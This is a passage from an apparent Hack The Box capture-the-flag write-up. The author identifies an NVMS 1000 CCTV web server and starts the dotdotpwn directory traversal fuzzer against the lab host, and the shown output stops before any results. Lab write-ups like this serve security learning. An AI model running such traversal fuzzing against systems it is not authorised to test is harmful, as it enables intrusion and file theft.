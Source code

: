 ### NVMS 1000

I have no idea what NVMS is so I did a little sleuthing around. First up, notice in the `nmap` scan there's no server banner? Probably some kind of home-brewed web server. This tells me some common vulnerability like directory traversal may be on the cards. Next up, I also noticed that there are JavaScript files with Chinese in them.

{% include image.html image_alt="812ef50b.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/812ef50b.png" %}

This is Simplified Chinese, so I'm probably looking at a Chinese software. I managed to get some URLs from the JavaScript files and visited them.

{% include image.html image_alt="2e5a01af.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/2e5a01af.png" %}

Looks like some kind of CCTV management system! Other than this, I'm getting nowhere.

#### Directory Traversal

Let's see what `dotdotpwn` gives us.

```
# dotdotpwn -m http -h 10.10.10.184 -o windows
#################################################################################
#                                                                               #
#  CubilFelino                                                       Chatsubo   #
#  Security Research Lab              and            [(in)Security Dark] Labs   #
#  chr1x.sectester.net                             chatsubo-labs.blogspot.com   #
#                                                                               #
#                               pr0udly present:                                #
#                                                                               #
#  ________            __  ________            __  __________                   #
#  \______ \    ____ _/  |_\______ \    ____ _/  |_\______   \__  _  __ ____    #
#   |    |  \  /  _ \\   __\|    |  \  /  _ \\   __\|     ___/\ \/ \/ //    \   #
#   |    `   \(  <_> )|  |  |    `   \(  <_> )|  |  |    |     \     /|   |  \  #
#  /_______  / \____/ |__| /_______  / \____/ |__|  |____|      \/\_/ |___|  /  #
#          \/                      \/                                      \/   #
#                              - DotDotPwn v3.0.2 -                             #
#                         The Directory Traversal Fuzzer                        #
#                         http://dotdotpwn.sectester.net                        #
#                            dotdotpwn@sectester.net                            #
#                                                                               #
#                               by chr1x & nitr0us                              #
#################################################################################

[+] Report name: Reports/10.10.10.184_04-14-2020_06-56.txt

[========== TARGET INFORMATION ==========]
[+] Hostname: 10.10.10.184
[+] Setting Operating System type to "windows"
[+] Protocol: http
[+] Port: 80

[=========== TRAVERSAL ENGINE ===========]
[+] Creating Traversal patterns (mix of dots and slashes)
[+] Multiplying 6 times the traversal patterns (-d switch)
[+] Creating the Special Traversal patterns
[+] Translating (back)slashes in the filenames
[+] Adapting the filenames according to the OS type detected (windows)
[+] Including Special sufixes
[+] Traversal Engine DONE ! - Total traversal tests created: 16542

[=========== TESTING RESULTS ============]
[+] Ready to launch 3.33 traversals per second
[+] Press Enter to start the testing (You can stop it pressing Ctrl + C)
```

[1]: https://www.hackthebox.eu/home/machines/profile/235
[2]: https://www.hackthebox.eu/home/users/profile/158833
[3]: https://www.hackthebox.eu/